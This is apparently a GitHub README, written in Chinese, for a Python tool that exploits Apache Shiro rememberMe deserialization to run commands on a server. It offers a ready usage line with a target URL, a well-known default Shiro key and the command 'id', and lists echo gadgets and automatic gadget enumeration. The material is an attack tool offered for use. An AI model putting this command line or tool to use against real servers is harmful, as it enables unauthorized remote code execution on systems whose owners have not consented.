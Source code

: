 # shiro_rememberMe_Rce

## 描述

利用长亭xray高级版的回显Gadget重写的一个shiro反序列化利用工具。

## 用法

建议先用其他工具找到可以利用的shiro密码，然后使用此工具进行利用。

```
python shiro_rememberMe_Rce.py targetUrl shiroKey command
python shiro_rememberMe_rce.py http://192.168.0.106:8080/login kPH+bIxk5D2deZiIxcaaaA== id
```

![](assets/markdown-img-paste-20200725205353408.png)

![](assets/markdown-img-paste-20200725205414673.png)

## 更新说明

v0.1版本：
- 实现用CommonsCollectionsK1这个gadget执行命令

v0.2版本：
- 添加有新的回显gadget，共6个
- 添加自动枚举可用的gadget功能

## 参考

参考文章[shiro新姿势：初探xray高级版shiro插件](https://www.anquanke.com/post/id/211228)
